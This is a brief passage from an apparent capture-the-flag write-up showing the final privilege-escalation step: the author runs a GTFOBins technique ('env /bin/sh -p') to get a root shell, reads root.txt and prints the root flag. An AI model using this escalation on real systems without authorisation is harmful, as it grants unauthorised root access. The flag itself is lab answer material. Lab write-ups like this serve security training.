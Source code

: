 GTFOBins (https://gtfobins.github.io/gtfobins/env/) reveals a potential privilege escalation:

~~~
namelessone@anonymous:~$ env /bin/sh -p
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt	
4d930091c31a622a7ed10f27999af363
~~~

Root flag: `4d930091c31a622a7ed10f27999af363`